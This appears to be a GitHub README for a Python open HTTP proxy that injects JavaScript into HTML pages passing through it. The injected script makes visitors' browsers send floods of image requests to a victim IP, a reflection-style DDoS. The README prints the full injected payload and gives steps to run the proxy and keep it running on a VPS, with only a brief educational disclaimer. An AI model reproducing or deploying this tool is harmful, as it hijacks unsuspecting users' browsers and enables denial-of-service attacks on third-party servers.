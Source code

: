 # 🧠 Reflection DDoS via Open HTTP Proxy

This project is a Python-based open HTTP proxy that injects JavaScript into HTML responses. The injected script forces connected browsers to generate multiple outbound requests to a target server, simulating a reflection-based DDoS attack where unsuspecting clients become amplifiers.

## Features

-Open HTTP proxy on port 8080

-Injects JavaScript payload into HTML responses

Payload creates multiple image requests to a specified victim IP

Lightweight — no dependencies beyond the standard library

Ideal for research, educational labs, or pentesting your own systems


## How It Works

1. Clients connect through the proxy.

2. The proxy forwards HTTP traffic.

3. If the response is HTML, it appends a script that loads 100 image URLs from the victim server.

4. Each client unknowingly reflects traffic toward the target IP.


### Example Payload
```
<script>
  for (let i = 0; i < 100; i++) {
    let img = new Image();
    img.src = "http://198.51.100.77/img" + i + ".jpg";
  }
</script>
```
Replace 198.51.100.77 with your own controlled test server IP.


## Setup

1. Clone the repo.

2. Run the proxy:
```
python3 proxy.py
```

3. On a test browser, configure HTTP proxy to point to your VPS IP on port 8080.

4. Visit an HTTP (non-HTTPS) website.

5. Monitor the target server for incoming traffic.


## Deployment Notes

Use nohup, screen, tmux, or systemd to keep it running.

Ensure port 8080 is open on both UFW and your VPS firewall panel.


## Disclaimer

This tool is provided for educational and testing purposes only. Do not use it on unauthorized networks or systems. You are fully responsible for any misuse.
